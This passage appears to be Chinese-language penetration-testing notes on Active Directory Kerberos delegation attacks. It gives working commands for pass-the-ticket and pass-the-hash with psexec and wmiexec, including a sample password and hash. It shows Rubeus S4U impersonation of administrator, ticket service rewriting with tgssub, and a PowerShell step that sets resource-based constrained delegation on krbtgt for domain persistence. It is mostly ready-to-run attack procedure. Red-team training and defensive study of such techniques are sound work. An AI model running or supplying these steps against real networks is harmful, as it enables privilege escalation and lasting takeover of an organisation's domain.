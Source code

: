 ## 使用票据进行psexec,如果psexec不行,可以试试impacket中的其它exec
```
psexec.py -k -no-pass -dc-ip 10.6.100.60 -target-ip 10.6.100.77 Archives2.hlu.com

psexec.py -hashes 31d6cfe0d16ae931b73c59d7e0c089c0:7692d94bcd3d6118b62045d76d0d9859 s/zj1897@10.6.100.60
psexec.py  s/zj1897:kimu\&213ra@10.6.100.60

wmiexec.py -k -no-pass -
```
## 解决敏感账户不能委派
> 利用条件：知道目标的主机账户的凭证

**注：** 一般情况下主机在加入域中会随机设置主机账户的密码，所以一般情况下用的是主机账户 hash，并且不能修改主机账户的密码，否则该主机就会和域失去信任。
在域环境中，高权限用户如果没有特殊需求的情况下，考虑到安全性一般是设置为不可委派，或者是加入受保护组
在以 administrator 账户身份进行 S4U 时，只能进行 S4U2SELF，不能进行S4U2PROXY。
用 `Rubeus.exe s4u /user:evilsystem$ /rc4:B1739F7FC8377E25C77CFA2DFBDC3EC7 /impersonateuser:administrator /msdsspn:cifs/target /ptt`继续实验 administrator，发现确实是这样
![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210127160903.png-water_print](imgs/实战-基于资源的约束委派攻击/20210127160903.jpeg)
解密 base64 后的票据：
```
rubeus.exe describe /ticker:S4Ubase64 doIFxxxxxxx
```
![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210127161042.png-water_print](imgs/实战-基于资源的约束委派攻击/20210127161042.jpeg)
发现 SPN 并没有指定服务
利用 Rubeus 完成票据修改：
```
rubeus.exe tgssub /ticket:base64EncodeTicket /altservice:cifs/test1 /ptt
```
修改后导入内存即可。

## 利用基于资源的约束委派进行域权限维持

1. 配置evilsystem到krbtgt基于资源的约束委派
2. 配置evilsystem到域控基于资源的约束委派

这里就以第一种方法为例，下面配置evilsystem到krbtgt基于资源的约束委派

```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-662417213-3583657854-423750704-1115)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Set-DomainObject krbtgt -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

[![img](imgs/实战-基于资源的约束委派攻击/20200322120649-8ded17e6-6bf2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200322120649-8ded17e6-6bf2-1.png)

尝试是否可以请求到TGT

```
Rubeus.exe s4u /user:evilsystem$ /rc4:B1739F7FC8377E25C77CFA2DFBDC3EC7 /impersonateuser:administrator /msdsspn:krbtgt /ptt
```
[![img](imgs/实战-基于资源的约束委派攻击/20200322121221-537cc45c-6bf3-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200322121221-537cc45c-6bf3-1.png)
然后利用`S4U2proxy`返回的TGT去申请一张访问域控cifs服务的ST
```
Rubeus.exe asktgs /user:evilsystem$ /enctype:rc4 /service:cifs/dm2012 /domain:test.local /ticket:test.kirbi /ptt
```
[![img](imgs/实战-基于资源的约束委派攻击/20200322121915-4acf27b8-6bf4-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200322121915-4acf27b8-6bf4-1.png)
Rubeus一个一个请求票据有点小麻烦，直接用impacket套件会快一点